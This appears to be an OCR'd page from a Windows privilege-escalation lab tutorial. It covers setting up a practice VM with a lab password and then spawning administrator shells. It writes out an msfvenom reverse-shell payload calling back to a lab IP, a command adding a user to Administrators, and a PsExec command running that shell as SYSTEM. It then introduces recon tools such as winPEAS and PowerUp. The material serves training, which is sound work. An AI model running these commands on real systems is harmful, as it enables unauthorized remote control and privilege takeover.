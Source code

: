> > copy file.ext \\192.168.1.11\tools\file.ext

**Setup Script**

Copy the setup.bat script to the Windows VM:

> > copy \\192.168.1.11\tools\setup.bat setup.bat

> Open a command prompt as Administrator. Run the setup.bat script: > .\setup.bat

**Setup Script**

After the setup script has completed, restart the VM. The newly created “admin” account will log in automatically. You can log out and log in as the “user” account with the password “password321”.

A writable directory C:\PrivEsc exists for you to copy any tools/executables to, and will be used as such in the page demos.

### Spawning Administrator Shells

**msfvenom**

If we can execute commands with admin privileges, a reverse shell generated by msfvenom works nicely:

> > msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f exe -o reverse.exe

This reverse shell can be caught using Netcat or Metasploit’s own multi/handler.

**RDP**

Alternatively, if RDP is available (or we can enable it), we can add our low privileged user to the Administrators group and then spawn an administrator command prompt via the GUI.

> > net localgroup administrators /add

**Admin -> SYSTEM**

To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals [(https://docs.microsoft.com/en-us/sysinternals/downloads/psexec).](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

A copy is included in the downloadable tools ZIP archive.

> > .\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe

### Privilege Escalation Tools

Why use tools?

Tools allow us to automate the reconnaissance that can identify potential privilege escalations.

While it is always important to understand what tools are doing, they are invaluable in a time-limited setting, such as an exam.

On this page we will mostly be using winPEAS and Seatbelt, however, you are free to experiment with other tools and decide which you like.

**PowerUp & SharpUp**

PowerUp & SharpUp are very similar tools that hunt for specific privilege escalation misconfiguration.
